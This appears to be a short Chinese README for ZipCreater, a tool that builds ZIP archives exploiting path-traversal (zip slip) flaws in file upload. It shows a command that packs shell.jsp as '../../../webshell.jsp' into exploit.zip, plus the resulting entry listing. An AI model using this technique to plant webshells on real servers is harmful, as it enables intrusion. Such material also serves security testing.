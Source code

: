 ZipCreater主要应用于跨目录的文件上传漏洞的利用，它能够快速进行压缩包生成，[evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)不支持修改已有的压缩包，但ZipCreater可以。

假设/tmp/payload文件夹内的文件列表如下：

```java
zipEntry.getName() =>1.txt
zipEntry.getName() =>2.txt
zipEntry.getName() =>shell.jsp
```

使用ZipCreater可以生成跨目录的文件名：

```bash
$ zipcreater -source /tmp/payload/ -dest /tmp/exploit.zip -filename shell.jsp -path ../../../webshell.jsp'
```

exploit.zip内容如下：

```java
zipEntry.getName() => 1.txt
zipEntry.getName() => 2.txt
zipEntry.getName() => ../../../webshell.jsp
```

